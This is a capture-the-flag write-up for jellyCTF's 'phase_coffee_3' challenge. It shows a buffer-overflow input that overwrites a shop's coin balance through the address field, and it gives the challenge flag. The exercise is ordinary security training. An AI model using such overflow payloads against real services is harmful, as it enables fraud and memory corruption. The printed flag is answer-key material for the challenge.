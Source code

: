 # phase_coffee_3

**Difficulty**: Easy

**Points earned**: 643

**Description**:

> Fine.. NOW all the bugs have been fixed.
> 
> Huh? There's complaints that customers have not received their orders?
> 
> Hmm... maybe the shop should have asked for a shipping address. Anyway, that's also fixed now!
> 
> This challenge is the final challenge in a series of 3 challenges.
> 
> Author: Sheepiroo
> 
> `nc chals.jellyc.tf 5002`

![phase_coffee_3](./images/pc_3.png "phase_coffee_3")

**Solution**: 

Had to buy a hint:

> Buffer overflow on `address` to overwrite value of coin balance

Basically we need to input a string for address long enough that it overflows and overwrites the coin balance. This is the string I used:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA999999999999
```

![phase_coffee_3 solution](./images/pc_3_sol.png "phase_coffee_3 solution")

**Flag**: `jellyCTF{ph4se_c0nn3ct_15_definitely_a_coff33_comp4ny}`